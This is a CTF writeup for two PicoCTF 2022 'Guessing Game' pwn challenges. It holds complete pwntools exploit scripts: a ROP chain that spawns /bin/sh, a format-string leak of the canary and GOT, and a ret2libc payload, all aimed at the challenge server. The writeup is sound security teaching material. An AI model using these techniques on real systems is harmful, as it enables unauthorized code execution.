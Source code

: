 ```yaml
---
title: "Picoctf2022 Writeup"
date: 2022-11-26T20:50:21+08:00
summary: Guessing Game
categories: ["writeup"]
---
```


# PicoCTF 2022 Writeup

## Guessing Game 1

First, let's analyze compilation parameters. `-m64` means 64-bit binary. `-fno-stack-protector` means no canary. `-O0` means no magic compiler optimization, which isn't so important. `-no-pie`, good news! `-static` means ROP? A small note, if using pwntools checksec `pwn checksec vuln`, pwntools says "Canary found". I think it is due to static linking.

Then, let's read the source code. The first vulnerability is no srand which means we break the guessing part easily. The next vulnerability is fgets in win function which is a buffer overflow vulnerability. So, the idea how to exploit is ROP in static binary.

How to ROP? Our goal is to get a shell. There is no system no execve. The last we can use is syscall. One thing I learned in this challenge is pwntools ROP is not so smart. Manually written ROP is more reliable. How to create a `/bin/sh` string? Use `mov [rxx] rxx` to write this string to writeable memory.

The exploit script is as follows.

```python
import pwn

pwn.context.update(arch='amd64', os='linux', encoding='utf-8')

data_addr = 0x00000000006BA360

pop_rsi_addr = 0x0048ed33
pop_rax_addr = 0x00476407
mov_rsi_rax_addr = 0x0047ff91
syscall_addr = 0x00485e95
pop_rdi_addr = 0x0049220f
pop_rdx_addr = 0x004afe92

payload = pwn.p64(pop_rsi_addr) + pwn.p64(data_addr) + pwn.p64(pop_rax_addr) + b'/bin/sh\x00' + pwn.p64(mov_rsi_rax_addr) + pwn.p64(pop_rdi_addr) + pwn.p64(data_addr) + pwn.p64(pop_rsi_addr) + pwn.p64(0) + pwn.p64(pop_rdx_addr) + pwn.p64(0) + pwn.p64(pop_rax_addr) + pwn.p64(59) + pwn.p64(syscall_addr)


res = b"84\n" + (pwn.cyclic(0x78) + payload).ljust(360, b'0') + b"\n"

# with pwn.process("./vuln") as io:
with pwn.remote("jupiter.challenges.picoctf.org", 26735) as io:
    io.sendline(b"84")
    io.recvrepeat(0.1)
    io.sendline((pwn.cyclic(0x78) + payload).ljust(360, b'0'))
    io.interactive()

```

## Guessing Game 2

First, let's analyze compilation parameters. `-m32` means 32 bit. `-no-pie`, good news. `-Wl,-z,relro,-z,now`, means full relro. It's impossible to modify got table. And we should deal with canary this time.

Then, let's read the source code. The first vulnerability is in `get_random()`. It uses the address of `rand` function modulo 4096. We know that the last 12 bit of function address is fixed. So we can bruteforce it one time.

```python
import pwn
with pwn.remote("jupiter.challenges.picoctf.org", 57529) as io:
    for i in range(-4095, 4096):
        io.sendline(str(i).encode())
        res = io.recvrepeat(0.1)
        if "Congrats" in res.decode():
            print("Success!")
            print(i)
            break

```

The answer is -3727.

The next vulnerability is in `win` function. `gets` means a buffer overflow vulnerability. However, we need to deal with canary before exploit using ROP. `printf(winner);` means a format string vulnerability. I thought about leaking GOT table and getting information about libc. But don't know how to deal with canary. After reading others' writeup, I realized the format string vulnerability can leak the canary as well. So, the idea is leaking the canary, leaking one of the libc function address to know libc base address and ret2libc.

I use the following scripts to leak some function address of libc and use libc.rip to get the version of libc. Interestingly, there are two possible libc version, libc6-i386_2.27-3ubuntu1.5_amd64 and libc6-i386_2.27-3ubuntu1.6_amd64. Most of symbols in these two libc are just the same. I'm curious about why they look the same and find [Ubuntu packaging versioning scheme](https://wiki.ubuntu.com/AutoStatic/PackagingVersioningScheme). 2.27 is upstream version. 3 is debian revision. Ubuntu1 is Ubuntu revision. .6 is Ubuntu security revision.


```python
import pwn

pwn.context.update(arch='i686', os='linux', encoding='utf-8')

got_dict = {
    "gets": 0x08049FCC,
    "fgets": 0x08049FD0,
    "puts": 0x08049FDC,
    "printf": 0x08049FC8,
    "rand": 0x08049FF8,
    "atol": 0x08049FE4,
}

with pwn.remote("jupiter.challenges.picoctf.org", 57529) as io:
    for i, j in got_dict.items():
        payload = b"-3727\n"
        payload += pwn.p32(j) + b"%7$s\n"
        io.send(payload)
        res = io.recvrepeat(0.5)
        print(res)
        congrats_index = res.index(b"Congrats: ")
        address = hex(pwn.u32(res[congrats_index + 14: congrats_index + 18]))
        print(i, address)

```

How to get shell? I try to use one_gadget t first. I realized one_gadget in 32 bit is hard according to this [blog](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html). What's more, I'm not familiar with 32 bit assembly and syscall. So, I choose `system` function to get a shell. One caveat, there should be a 4 byte padding between address of `system` and address of `/bin/sh` because normally calling `system` will push the return address into stack.

```python
import re
import pwn

pwn.context.update(arch='i686', os='linux', encoding='utf-8')

gets_plt = 0x08049FCC
sh_addr = 0x0017B9DB
gets_addr = 0x00066ce0
system_addr = 0x0003cf10

ans = "-3727"

canary_re = re.compile(r"^Name\? Congrats: (0x[0-9a-f]*)$", re.M)

with pwn.remote("jupiter.challenges.picoctf.org", 57529) as io:
    payload = ans.encode() + b"\n" + b'%135$p\n'
    io.send(payload)
    res = io.recvrepeat(0.5)
    print(res.decode())
    canary = int(canary_re.search(res.decode()).group(1), 16)

    payload = ans.encode() + b"\n" + pwn.p32(gets_plt) + b"%7$s\n"

    io.send(payload)
    res = io.recvrepeat(0.5)
    print(res)
    congrats_index = res.index(b"Congrats: ")
    address = pwn.u32(res[congrats_index + 14: congrats_index + 18])
    print(f"gets addr: {address:x}")

    libc_base = address - gets_addr

    print(hex(libc_base))

    payload = ans.encode() + b"\n" + pwn.cyclic(0x200) + pwn.p32(canary) + pwn.cyclic(12) + pwn.p32(system_addr + libc_base) + pwn.p32(0) + pwn.p32(sh_addr + libc_base) + b"\n"
    print(payload)
    io.send(payload)
    io.interactive()

```
